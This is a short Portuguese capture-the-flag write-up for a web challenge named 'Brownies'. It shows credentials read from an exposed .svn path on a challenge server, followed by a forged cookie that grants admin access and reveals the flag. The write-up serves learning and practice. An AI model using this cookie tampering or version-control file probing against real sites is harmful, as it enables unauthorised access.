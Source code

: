 Brownies
========

### Desc:

Hint: think of default files when using source code management systems

### Getting the flag:

Dada a descrição da task, uma das primeiras tentativas foi olhar: http://178.63.58.69:8083/.svn
O que continha o seguinte:

```
use this to try

user: ping
pass: pong

admin: john
```

Usando tal informação pra logar, notamos o seguinte cookie:

`Cookie: type=user; flag=df911f0151f9ef021d410b4be5060972; name=ping`

Como precisamos virar admin, tentamos modificar o cookie para:

`type=admin; flag=527bd5b5d689e2c32ae974c6229ff785; name=john`

O que foi o suficiente! Na página apareceu:

`<h4>Welcome: john</h4><br><a href='index.php'>Logout</a><h4>Hi faked admin :) </h4><br><h5>Flag: 'a012c434d1ec6db911fda4884de14fdd'</h5>`

